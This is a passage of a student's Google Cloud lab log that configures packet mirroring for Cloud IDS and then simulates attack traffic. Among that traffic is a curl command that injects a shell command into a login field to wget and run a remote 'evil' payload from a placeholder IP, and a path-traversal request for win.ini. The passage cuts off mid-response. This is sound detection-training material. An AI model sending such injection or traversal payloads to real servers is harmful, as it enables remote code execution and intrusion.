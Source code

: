 ```sh
student_01_41d0c1af2373@cloudshell:~ (qwiklabs-gcp-02-05e37a194649)$ gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
--region=us-east1 \
--collector-ilb=$FORWARDING_RULE \
--network=cloud-ids \
--mirrored-subnets=cloud-ids-useast1
Created [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-02-05e37a194649/regions/us-east1/packetMirrorings/cloud-ids-packet-mirroring].
student_01_41d0c1af2373@cloudshell:~ (qwiklabs-gcp-02-05e37a194649)$ 
```

```sh
student_01_41d0c1af2373@cloudshell:~ (qwiklabs-gcp-02-05e37a194649)$ gcloud compute packet-mirrorings list
NAME: cloud-ids-packet-mirroring
REGION: us-east1
NETWORK: cloud-ids
ENABLE: TRUE
student_01_41d0c1af2373@cloudshell:~ (qwiklabs-gcp-02-05e37a194649)$ 
```



## Simulate attack traffic

In this task, you establish an SSH connection to your attacked  virtual machine and simulate attack traffic from a virtual machine to  your server. You do this by running a selection of `curl` commands that range from low severity to critical severity.

```sh
student_01_41d0c1af2373@cloudshell:~ (qwiklabs-gcp-02-05e37a194649)$ gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
WARNING: 

To increase the performance of the tunnel, consider installing NumPy. For instructions,
please see https://cloud.google.com/iap/docs/using-tcp-forwarding#increasing_the_tcp_upload_bandwidth

Warning: Permanently added 'compute.1860123581354653234' (ED25519) to the list of known hosts.
Linux attacker 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Creating directory '/home/student-01-41d0c1af2373'.
student-01-41d0c1af2373@attacker:~$ curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.14.2</center>
</body>
</html>
student-01-41d0c1af2373@attacker:~$ curl http://192.168.10.20/?item=../../../../WINNT/win.ini
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
```